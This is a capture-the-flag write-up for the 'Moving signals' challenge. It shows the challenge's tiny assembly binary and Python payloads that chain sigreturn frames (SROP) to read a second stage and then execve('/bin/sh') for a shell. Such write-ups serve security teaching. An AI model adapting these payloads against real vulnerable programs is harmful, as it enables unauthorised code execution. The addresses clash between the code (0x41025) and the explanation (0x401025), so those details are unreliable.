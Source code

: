 # Moving signals
#### Description
We don't like giving binaries that contain loads of information, so we decided that a small program should do for this challenge. Even written in some custom assembly. I wonder how this could be exploited.
#### Author
Tango
#### Points and solves
442 points, 91 solves.


We are given an extermly small binary:

```asm
0x0000000000041000 <+0>:     mov    rdi,0x0
0x0000000000041007 <+7>:     mov    rsi,rsp
0x000000000004100a <+10>:    sub    rsi,0x8
0x000000000004100e <+14>:    mov    rdx,0x1f4
0x0000000000041015 <+21>:    syscall
0x0000000000041017 <+23>:    ret
0x0000000000041018 <+24>:    pop    rax
0x0000000000041019 <+25>:    ret
```

## The vulnerability:
Well, of course we have full control over ```rip``` using the read syscall.
In addition we have a ```syscall``` gadget to use for ```sigreturn``` and ```execve```



## 1. Getting sigreturn:
```python
payload = b"A"*8 + p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = 0x41025
frame.rdx = 0x300
frame.rsp = 0x41025
frame.rip = syscall_ret
payload += bytes(frame)
p.send(payload)
```
This payload sets ```rax = 0xf``` and syscalls, the frame that is loaded gives the registers the values:
1. ```rax = 0 for ```read``` syscall
2. ```rdi = 0``` for ```stdin```
3. ```rsi = 0x401025``` is the only known address that is also writeable, (which is right after the given code)
4. ```rsp = 0x401025``` is to align the stack right back to where we are reading into.
5. ```rip = syscall_ret``` to execute this read syscall.
Basically we read the next phase of this exploit into the code segment of the binary, and after that has been done, 
We will return to whatever that will be written to address ```0x401025```

## 2. Getting shell:
payload = p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = 0x41025+248 + 0x18
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0x41000
frame.rip = syscall_ret
payload += bytes(frame) + b"/bin/sh\x00"

This utilizes another ```sigreturn``` to load the values required to perform ```execve(/bin/sh)```
1. ```rax = 59``` for ```execve``` syscall
2. ```rdi = 0x401026 + 248 + 0x18``` for the address that ```/bin/sh``` will be on the stack.
3. ```rsp = 0x41000``` just to have some stack space for saftey.


And we get shell :).

